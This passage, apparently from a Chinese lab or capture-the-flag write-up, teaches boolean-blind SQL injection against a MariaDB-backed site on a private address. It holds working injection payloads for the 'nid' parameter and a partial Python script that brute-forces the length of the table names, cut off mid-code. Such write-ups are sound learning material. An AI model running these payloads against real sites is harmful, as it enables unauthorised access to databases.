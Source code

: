 前面已经知道数据库为`mariadb`，`ai`搜索，这是`mysql`的一个分支，大部分都是相似的，并且有`information_schema`这个数据库，该数据库中的表`schemata`，包括其他所有的数据库名称(`schema_name`)

并且还有一个表`tables`包括表所属的数据库（`table_shema`）、表名（`table_name`）

还有表`columns`包含列所属的表（`table_shema` 和 `table_name`）、列名（`column_name`）

前面获取的数据库名称`d7db`，可以有下面的结构

```shell
information_schema
----schemata
--------schema_name				d7db可以在这里

----tables
--------table_name
--------table_schema			d7db可以在这里

----columns
--------table_name
--------table_schema			d7db可以在这里
--------column_name

所以可以理清了吧
```

## 布尔盲注脚本编写

构造语句，不过下面的爆破在虚拟机`kali`中进行，我的电脑不行，所以下面采用写代码的形式进行

```shell
/?nid=1 and if(length((select (group_concat(table_name)) from (information_schema.tables) where (table_schema=database())))=1,1,0)--+

/?nid=1 and if(substring((select (group_concat(table_name)) from (information_schema.tables) where (table_schema=database())),1,1)='s',1,0)--+ 

#看着是不是感觉很长，这里其实拆解后，很好理解的
#首先就是()，在sql中，具有优先权的，所有在原本的sql语句中，使用()，优先执行这里的语句，也就是select
#然后在每一个中，用()包括，也是为了防止出错，只是()太多，眼看很难受
#总体语句就是测试数据库d7db中的表名的每一位字符
```

编写代码先进行长度的验证

```python
import requests
from bs4 import BeautifulSoup
import itertools
import string
for i in range(1,2000):
    try:        
        url=f"http://192.168.10.12/?nid=1 and if(length((select (group_concat(table_name)) from (information_schema.tables) where (table_schema=database())))={i},1,0)--+"
#这里的url可自行修改
        response=requests.get(url)
        response.encoding = 'utf-8'
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            target_elements = soup.find_all('div', class_='messages status')
            if target_elements:
                print(f"length is {i}")
                for element in target_elements:
                    pass
                #print(element)
            else:
                pass
```